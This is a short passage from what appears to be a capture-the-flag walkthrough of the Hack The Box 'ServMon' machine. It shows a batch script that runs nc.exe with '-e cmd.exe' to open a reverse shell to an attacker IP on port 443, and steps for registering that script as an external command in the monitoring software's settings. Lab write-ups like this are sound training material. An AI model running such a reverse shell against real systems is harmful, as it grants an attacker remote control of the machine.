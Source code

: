 
3. Download `nc.exe` (*Use 64.bit one) and `bigb0ss.bat` to c:\temp from attacking machine:
	
```bat
@echo off
c:\temp\nc.exe -e cmd.exe 10.10.14.22 443 
```

![image](/assets/img/post/htb/servmon/08.png)


4. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\bigb0ss.bat
